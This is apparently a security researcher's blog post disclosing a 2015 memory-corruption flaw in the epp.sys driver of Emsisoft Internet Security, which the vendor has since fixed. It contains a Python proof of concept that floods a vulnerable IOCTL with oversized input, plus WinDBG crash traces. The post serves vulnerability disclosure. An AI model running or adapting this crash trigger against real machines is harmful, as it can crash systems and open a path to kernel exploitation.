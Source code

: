 ```yaml
---
layout: post
title:  "Emsisoft Internet Security - Memory Corruption"
date:   2018-09-19 03:39:03 +0700
categories: [security, corruption]
---
```


Vulnerability Details
---------------------
Back in 2015, I found a vulnerability in Emsisoft Internet Security targeting the kernel epp.sys. This vulnerability is caused by the 
improper handling of IOCTL. The vulnerable IOCTL **0x22e010** with device **\\.\A2 Direct Disk Access**. I have reported the issue to the 
Emsisoft and they taking care of the issue. I have a chance working clsoely with the developer and helping them to test the beta driver 
at that time. No CVE assigned for this issue. 

The vulnerability can be easily triggered with the following POC:
```
#!/usr/bin/python
from ctypes import *
import struct

kernel32 = windll.kernel32

if __name__ == '__main__':
	GENERIC_READ  = 0x80000000
	GENERIC_WRITE = 0x40000000
	OPEN_EXISTING = 0x3
	IOCTL		  = 0x22e010
	DEVICE_NAME   = "\\\\.\\A2 Direct Disk Access"
	dwReturn      = c_ulong()
	input_size    = 1000
	input_buffer  = "\x41" * input_size
	out_size      = 1000
	output_buffer = "\x00" * out_size
	driver_handle = kernel32.CreateFileA(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, 0, None, OPEN_EXISTING, 0, None)
				
	if driver_handle:
		dev_ioctl = kernel32.DeviceIoControl(driver_handle, IOCTL,
								input_buffer, input_size,
								output_buffer, out_size,
								byref(dwReturn), None)
	
	kernel32.CloseHandle(driver_handle)
```

If we attach WinDBG, we should be able to see the crash triage:
```
TRAP_FRAME:  8a1e88f4 -- (.trap 0xffffffff8a1e88f4)
ErrCode = 00000000
eax=00000000 ebx=00000000 ecx=fffffdff edx=8a1e89a0 esi=00000000 edi=85600000
eip=82a75ef3 esp=8a1e8968 ebp=8a1e89f4 iopl=0         nv up ei pl zr na pe nc
cs=0008  ss=0010  ds=0023  es=0023  fs=0030  gs=0000             efl=00010246
nt!RtlInitUnicodeString+0x1b:
82a75ef3 f266af          repne scas word ptr es:[edi]

Stack trace:
8a1e88dc 82a7e3d8 00000000 85600000 00000000 nt!MmAccessFault+0x106
8a1e88dc 82a75ef3 00000000 85600000 00000000 nt!KiTrap0E+0xdc
8a1e89a4 82ab5a8c 865419e0 00000000 00010000 nt!RtlInitUnicodeString+0x1b
8a1e89f4 884e40d7 855ffc00 00000003 41414141 nt!IopfCompleteRequest+0x281
WARNING: Stack unwind information not available. Following frames may be wrong.
8a1e8a18 884e428f 871f7f68 871f7fd8 871f7f68 epp+0x20d7
8a1e8a30 884eafb8 8651bd88 871f7f68 d054b72f epp+0x228f
8a1e8afc 82a74593 8651bd88 871f7f68 871f7f68 epp+0x8fb8
8a1e8b14 82c6899f 8559daa0 871f7f68 871f7fd8 nt!IofCallDriver+0x63
8a1e8b34 82c6bb71 8651bd88 8559daa0 00000000 nt!IopSynchronousServiceTail+0x1f8
8a1e8bd0 82cb23f4 8651bd88 871f7f68 00000000 nt!IopXxxControlFile+0x6aa
8a1e8c04 82a7b1ea 000000f8 00000000 00000000 nt!NtDeviceIoControlFile+0x2a
8a1e8c04 771770b4 000000f8 00000000 00000000 nt!KiFastCallEntry+0x12a
0021fa00 00000000 00000000 00000000 00000000 0x771770b4
```
Observing the stack trace, we can see the nt!IopfCompleteRequest+0x281 is sending the buffer we send to IOCTL:
```
8a1e89f4 884e40d7 855ffc00 00000003 41414141 nt!IopfCompleteRequest+0x281
```

We can overwrite something in memory and can be observe as in following:
```
kd> dc 8a1e89f4
8a1e89f4  8a1e8a18 884e40d7 855ffc00 00000003  .....@N..._.....
8a1e8a04  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
8a1e8a14  871f7f68 8a1e8a30 884e428f 871f7f68  h...0....BN.h...
8a1e8a24  871f7fd8 871f7f68 00000000 8a1e8afc  ....h...........
8a1e8a34  884eafb8 8651bd88 871f7f68 d054b72f  ..N...Q.h.../.T.
8a1e8a44  8559daa0 8651bd88 00000000 9605eea8  ..Y...Q.........
8a1e8a54  8a1e8a70 82c6af69 871f7f68 85307ad8  p...i...h....z0.
8a1e8a64  8651bd88 00000000 0105eeb4 884e3868  ..Q.........h8N.
```

This contained enough information that we successfully write something in the memory. Affected module:
```
kd> lmvm epp
Browse full module list
start    end        module name
a5c55000 a5c6e000   epp      T (no symbols)           
    Loaded symbol image file: epp.sys
    Image path: \??\C:\PROGRAM FILES\EMSISOFT INTERNET SECURITY\epp.sys
    Image name: epp.sys
    Browse all global symbols  functions  data
    Timestamp:        Fri Oct 23 23:30:30 2015 (562A5296)
    CheckSum:         00024133
    ImageSize:        00019000
    Translations:     0000.04b0 0000.04e4 0409.04b0 0409.04e4
```
Sign off for now.
